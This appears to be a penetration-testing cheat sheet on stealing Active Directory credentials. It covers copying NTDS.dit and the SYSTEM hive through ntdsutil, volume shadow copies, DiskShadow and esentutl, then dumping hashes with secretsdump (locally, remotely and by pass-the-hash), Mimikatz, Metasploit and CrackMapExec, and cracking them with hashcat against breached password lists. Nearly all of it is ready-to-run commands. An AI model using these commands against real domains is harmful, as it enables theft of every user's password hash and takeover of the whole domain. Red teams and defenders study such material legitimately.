 # NTDS.dit & vshadow

The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.

The important NTDS.dit file will be located in: %SystemRoom%/NTDS/ntds.dit This file is a database Extensible Storage Engine \(ESE\) and is "officially" composed by 3 tables:

```text
Data Table: Contains the information about the objects (users, groups...)
Link Table: Information about the relations (member of...)
SD Table: Contains the security descriptors of each object
```

Windows uses Ntdsa.dll to interact with that file and its used by lsass.exe. Then, part of the NTDS.dit file could be located inside the lsass memory \(you can find the lastet accessed data probably because of the performance impruve by using a cache\).

## Decrypting the hashes inside NTDS.dit

You will need the following files to extract the ntds :

* NTDS.dit file
* SYSTEM hive \(C:\Windows\System32\SYSTEM\)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

* `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest \(the Configuration container data\).
* `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```text
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

The hash is cyphered 3 times:

```text
Decrypt Password Encryption Key (PEK) using the BOOTKEY and RC4.
Decrypt tha hash using PEK and RC4.
Decrypt the hash using DES.
```

PEK have the same value in every domain controller, but it is cyphered inside the NTDS.dit file using the BOOTKEY of the SYSTEM file of the domain controller \(is different between domain controllers\). This is why to get the credentials from the NTDS.dit file you need the files NTDS.dit and SYSTEM \(C:\Windows\System32\config\SYSTEM\).

### Copying NTDS.dit using Ntdsutil

Available since Windows Server 2008.

```text
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

 or run ntdsutil interactivly:

```text
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

## Vshadow

You could also use the volume shadow copy trick to copy the ntds.dit file. Remember that you will also need a copy of the SYSTEM file \(again, dump it from the registry or use the volume shadow copy trick\).

```text
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```text
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

### **Using vssadmin**

```text
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

### **Using DiskShadow \(a Windows signed binary\)**

```text
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

### **Using esentutl.exe**

**​​**Copy/extract a locked file such as the AD Database

```text
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

\*\*\*\*

## Extracting hashes from NTDS.dit

Once you have obtained the files NTDS.dit and SYSTEM you can use tools like secretsdump.py to extract the hashes:

```text
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile credentials.txt
```

### remote NTDS.dit Dump

You can also extract them automatically using a valid domain admin user:

```text
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.

### Metasploit & Mimikatz Modules

Finally, you can also use the metasploit module:

```text
post/windows/gather/credentials/domain_hashdump
lsadump::lsa /inject

```

### PowerSploit module

```text
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

### CrackMapExec module

```text
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```

### Mimikatz

{% hint style="info" %}
Dumps credential data in an Active Directory domain when run on a Domain Controller.![warning](https://github.githubassets.com/images/icons/emoji/unicode/26a0.png) Requires administrator access with debug or Local SYSTEM rights
{% endhint %}

```text
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

## **Crack NTLM hashes with hashcat**

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

Have I Been Powned \([https://hashes.org/download.php?hashlistId=7290&type=hfound](https://hashes.org/download.php?hashlistId=7290&type=hfound)\)

Collection \#1 \(passwords from Data Breaches, might be illegal to possess\)

```text
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r ./rules/best64.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

If the password is not a confidential data \(challenges/ctf\), you can use online "cracker" like :

* [hashes.org](https://hashes.org/check.php)
* [hashes.com](https://hashes.com/en/decrypt/hash)

